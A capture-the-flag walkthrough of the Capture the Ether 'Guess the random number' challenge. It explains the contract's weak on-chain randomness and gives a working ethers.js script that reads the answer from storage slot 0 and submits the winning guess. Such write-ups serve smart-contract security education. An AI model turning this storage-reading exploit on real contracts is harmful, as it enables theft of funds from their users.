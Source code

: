 ```yaml
---
description: >-
  In Capture the Ether's "Guess the random number", we see the first example of
  a "secret number" that can't easily be gleaned from reviewing the contract.
---
```


# Guess the random number

[This challenge](https://capturetheether.com/challenges/lotteries/guess-the-random-number/) is unique in that it sets the value of its `answer` from a _sort-of-random_ source when it is deployed (via its constructor) and it isn't obvious just in reading the contract what it could be.

### Hints

<details>

<summary>Hint One</summary>

Remember that data stored on the blockchain is publicly accessible, including the value of this contract's `answer` variable. The question is, where do contracts store their state variables and how exactly can we access them pragmatically?

</details>

### Full Walkthrough

There are really two ways to approach at this challenge. Let's look at how the answer is generated in the constructor:

```solidity
function GuessTheRandomNumberChallenge() public payable {
    require(msg.value == 1 ether);
    answer = uint8(keccak256(block.blockhash(block.number - 1), now));
}
```

The sources of "randomness" fed to the `keccak256` function are the block hash of the previous block and the current block timestamp (`now`). Both of these values could be reverse-engineered by looking at the block in which the contract itself was deployed, making them a pretty poor way of generating a "random" value.&#x20;

The other way to look at this problem is by realizing that no matter how random the value of `answer` may be, it is still stored on the blockchain as a state variable for this contract. Specifically, because it is the first state variable declared it lives in the slot indexed 0 of this contract's storage. This means we can easily query the value from the chain, ensuring our "guess" is a very good one.&#x20;

### Scripted Solution

```javascript
const ethers = require('ethers')
const fs = require('fs')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and
 * contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await playerWallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const { provider, contract: guessTheRandomNumberChallengeContract } =
    await setup('GuessTheRandomNumberChallenge')

  // Get `answer` from contract storage slot
  console.log('Getting answer from contract storage...')
  const answerSlot = 0
  const answerDataHexString = await provider.getStorageAt(
    guessTheRandomNumberChallengeContract.address,
    answerSlot
  )
  const answerNumber = Number(ethers.utils.hexValue(answerDataHexString))

  // Guess answer by calling `guess` with 1 ether
  const guessAnswer = await guessTheRandomNumberChallengeContract.guess(
    answerNumber,
    {
      gasPrice: 20000000000,
      value: ethers.utils.parseEther('1.0')
    }
  )
  await guessAnswer.wait(1)

  // Confirm challenge completion
  console.log('Confirming challenge completion...')
  const challengeComplete =
    await guessTheRandomNumberChallengeContract.isComplete()

  if (challengeComplete) {
    console.log('Challenge is complete!')
  }
}

main()
  .then(() => process.exit(0))
  .catch(error => {
    console.error(error)
    process.exit(1)
  })
```
